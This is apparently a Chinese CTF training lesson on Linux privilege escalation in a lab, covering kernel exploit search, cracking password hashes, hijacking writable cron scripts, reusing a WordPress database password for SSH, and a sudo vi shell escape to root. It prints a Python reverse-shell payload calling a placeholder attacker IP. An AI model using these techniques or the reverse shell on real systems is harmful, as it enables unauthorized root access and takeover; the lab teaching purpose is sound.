# CTF入门课程：P20：路径遍历与提权基础 🚀

在本节课中，我们将学习CTF比赛中的“提权”技术。提权是指当我们获得一个低权限用户（如 `www-data`）的访问权限后，通过一系列技术手段，将其提升为系统最高权限用户（如 `root`），从而完全控制目标主机并获取最终的 `flag` 值。

## 实验环境与目标 🎯

上一节我们介绍了路径遍历等基础漏洞，本节中我们来看看如何利用系统配置和漏洞进行提权。首先，明确我们的实验环境：
*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：一个Linux系统，IP地址为 `192.168.253.21`。



我们的初始状态是已经通过某种方式（例如Web漏洞）获得了靶机上一个低权限用户（例如 `www-data`）的反弹shell。我们的最终目标是获取 `root` 权限，并读取 `flag` 文件。

## 提权方法概览 🛠️





提权不只涉及漏洞利用，也涉及对目标系统配置的深入探查。前提是我们已经获得了一个低权限的shell，并且靶机上通常存在 `nc`、`python`、`perl` 等常见工具，我们可以利用它们上传或下载文件。



以下是几种常见的提权思路，我们将逐一尝试。

### 1. 内核漏洞提权

内核漏洞提权是我们最先应该尝试的方法，它可能让我们直接获得系统的最高权限。但通杀所有系统的内核漏洞十分罕见，因此我们需要先收集系统信息。

以下是收集系统信息的命令：
*   查看内核版本：`uname -a`
*   查看发行版本：
    *   `cat /etc/issue`
    *   `cat /etc/*-release`

在获得系统版本信息后，可以使用 `searchsploit` 工具搜索该版本是否存在已知的公开漏洞利用代码（Exploit）。例如：
```bash
searchsploit Ubuntu 12.04
```
如果找到可用的Exploit，我们需要将其上传到靶机，编译并执行。
```bash
# 在靶机上操作
gcc exploit.c -o exploit  # 编译Exploit代码
chmod +x exploit          # 赋予执行权限
./exploit                 # 执行Exploit进行提权
```
**实践结果**：在我们的靶机上，内核版本较新，未发现可直接利用的内核漏洞。

### 2. 明文密码复用提权

Linux系统的用户密码信息存储在 `/etc/passwd` 和 `/etc/shadow` 两个文件中。`/etc/passwd` 所有用户可读，但密码是哈希值；`/etc/shadow` 仅 `root` 可读写，存储着真正的密码哈希。

如果我们能读取这两个文件，就可以尝试使用 `john` 或 `hashcat` 等工具破解密码。许多管理员会复用密码，因此Web应用或数据库的密码可能就是系统 `root` 密码。

**实践结果**：我们可以读取 `/etc/passwd`，但无法读取 `/etc/shadow`，因此此路暂时不通。

### 3. 计划任务（Cron Job）提权

Linux系统中，`cron` 用于管理定时任务。系统级的计划任务配置文件 `/etc/crontab` 可以被列出。如果其中某个以 `root` 权限运行的脚本文件，其权限配置不当（例如，任何用户可写），我们就可以修改该脚本，让其执行我们的恶意代码（如反弹shell），从而获得 `root` 权限。

例如，如果定时任务执行一个Python脚本，我们可以将其替换为以下代码：
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("攻击机IP", 监听端口))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
**实践结果**：检查 `/etc/crontab`，未发现配置不当的可写脚本文件。

## 突破：信息收集与密码复用 🔍

经过以上三种常规方法尝试，均未成功。我们需要进行更深入的信息收集，寻找密码复用的可能性。

我们切换到 `/home` 目录，发现存在用户 `zico`。进入其目录后，发现一个 `wordpress` 应用目录。WordPress的配置文件 `wp-config.php` 中通常包含数据库连接密码。

我们使用 `cat` 命令查看该文件：
```bash
cat wp-config.php
```
在配置中，我们发现了数据库用户名 `zico` 和其密码 `sWfCsfGspV9h3amQZW8`。这很可能就是用户 `zico` 的SSH密码。

首先，确认靶机开放了SSH服务（端口22）。然后，尝试使用该密码通过SSH登录：
```bash
ssh zico@192.168.253.21
# 输入密码：sWfCsfGspV9h3amQZW8
```
登录成功！我们获得了用户 `zico` 的shell。

## 利用SUDO权限完成最终提权 👑

获得 `zico` 的shell后，我们检查该用户是否拥有 `sudo` 权限，以及可以执行哪些命令：
```bash
sudo -l
```
输出显示，用户 `zico` 可以在**不需要输入root密码**的情况下，以 `root` 身份运行 `vi` 和 `tar` 命令。这为我们提供了绝佳的提权机会。

这里我们演示使用 `vi` 编辑器进行提权的方法：
1.  创建一个临时文件。
2.  利用 `sudo` 以 `root` 权限运行 `vi` 编辑这个文件。
3.  在 `vi` 内部，通过 `:!` 命令执行系统命令，从而获得一个 `root` 权限的shell。






具体操作如下：
```bash
touch /tmp/exploit      # 创建临时文件
sudo vi /tmp/exploit    # 以root权限用vi打开文件
```
在 `vi` 编辑器界面中，输入：
```
:! /bin/bash
```
按下回车，即可获得一个 `root` 权限的shell。

**提示**：`tar` 命令也有类似的提权方法，原理是利用其 `--checkpoint-action` 参数执行任意命令。





## 获取Flag与总结 🏁

提权到 `root` 后，就可以寻找最终的 `flag` 了。`flag` 通常存放在 `/root` 目录下。
```bash
cd /root
ls
cat flag.txt  # 或类似的文件名
```
成功读取 `flag` 内容！







**本节课总结**：
在CTF比赛中，提权是关键一步，需要结合漏洞利用、系统配置探查和信息收集。思路要开阔，常见的提权路径包括：
1.  **内核漏洞利用**：最直接，但需对应版本。
2.  **密码破解与复用**：查找配置文件、历史命令、备份文件等。
3.  **服务配置不当**：如 `sudo` 权限滥用、计划任务文件可写、SUID文件利用等。
4.  **数据库/应用配置**：挖掘其中保存的密码，尝试密码复用。



本节课我们一起学习了从信息收集开始，通过发现密码复用漏洞获得新用户权限，最终利用配置不当的 `sudo` 规则完成提权的完整流程。掌握这些基础思路，将帮助你在CTF比赛中更有效地进行权限提升。